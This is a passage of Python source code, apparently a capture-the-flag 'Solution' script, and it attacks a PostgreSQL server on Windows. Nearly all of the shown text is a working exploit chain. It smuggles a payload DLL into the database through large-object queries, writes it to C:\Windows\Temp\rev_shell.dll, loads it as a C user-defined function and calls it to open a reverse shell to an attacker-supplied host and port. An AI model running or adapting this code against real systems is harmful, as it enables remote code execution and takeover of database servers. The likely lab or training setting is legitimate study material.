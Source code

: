 ```python
            f"SELECT lo_import($$C:\\Windows\\win.ini$$,{self.loid})",
        ]

        for query in queries:
            self.execute_query(query)

        # Read payload from disk
        payload = None
        with open(self.filename, "rb") as f:
            payload = f.read()

        # Upload payload as large object from disk
        j, chunk_size = 0, 2048
        for i in range(0, len(payload), chunk_size):
            chunk = payload[i : i + chunk_size].hex()

            query = ""
            if j:
                query = f"INSERT INTO PG_LARGEOBJECT (loid,pageno,data) VALUES ({self.loid},{j},decode($${chunk}$$,$$hex$$))"
            else:
                query = f"UPDATE PG_LARGEOBJECT SET data=decode($${chunk}$$,$$hex$$) WHERE loid={self.loid} AND pageno={j}"

            self.execute_query(query)
            j += 1

        # Write payload to disk
        # Load payload as user-defined function
        # Trigger reverse shell
        queries = [
            f"SELECT lo_export({self.loid},$$C:\\Windows\\Temp\\rev_shell.dll$$)",
            f"CREATE OR REPLACE FUNCTION rev_shell(text,integer) RETURNS void AS $$C:\\Windows\\Temp\\rev_shell.dll$$,$$rev_shell$$ LANGUAGE C STRICT",
            f"SELECT rev_shell($${self.lhost}$$,{self.lport})",
        ]

        for query in queries:
            self.execute_query(query)


def main():
    parser = ArgumentParser()
    parser.add_argument("-u", "--url", dest="url")
    parser.add_argument("-lh", "--lhost", dest="lhost")
    parser.add_argument("-lp", "--lport", dest="lport", type=int)
    parser.add_argument("-f", "--filename", dest="filename")
    parser.add_argument("-i", "--id", dest="id", type=int, default=randint(1000, 9999))
    args = parser.parse_args()
    s = Solution(args.url, args.lhost, args.lport, args.filename, args.id)
    s.solve()


if __name__ == "__main__":
    main()
```
